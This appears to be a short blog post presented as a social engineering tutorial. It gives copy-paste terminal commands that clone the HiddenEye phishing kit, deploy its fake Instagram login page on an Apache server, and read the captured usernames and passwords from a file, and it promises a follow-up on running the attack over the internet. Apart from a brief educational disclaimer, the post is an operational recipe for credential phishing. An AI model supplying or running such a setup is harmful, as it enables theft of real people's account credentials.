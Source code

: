 ```yaml
---
title: 'Social Engineering Tutorial ⚡'
date: '2023-06-07'
category: 'Guide'
tags: 'tutorial'
image_url: 'https://integrisit.com/wp-content/uploads/2022/12/social_engineering-01.png'
---
```


---

*Note: The information provided in this blog is for educational purposes only. Engaging in hacking activities without proper authorization is illegal and unethical.*

---

Social Engineering: Step-by-Step Guide
======================================

* * * * *

Step 1: Fire up Kali and install dependencies
---------------------------------------------

##### Copy and paste these commands in your terminal.

1.  `sudo apt update -y`
2.  `sudo apt install apache2 php git -y`
3.  `cd ~/Documents && git clone https://github.com/Morsmalleo/HiddenEye.git`
4.  `cd HiddenEye/WebPages/Instagram_web && touch usernames.txt`
5.  `sudo cp -r * /var/www/html`
6.  `sudo systemctl enable apache2 && sudo systemctl start apache2`

* * * * *

#### Step 2: Testing on localhost

Now head on to [localhost.](http://localhost/) Now login with a random username and password. Go to your terminal and type the following command to view the captured credentials: `sudo cat /var/www/html/usernames.txt`

* * * * *

##### Upcoming: Running the attack over the internet.

> Amateurs hack systems, professionals hack people 💀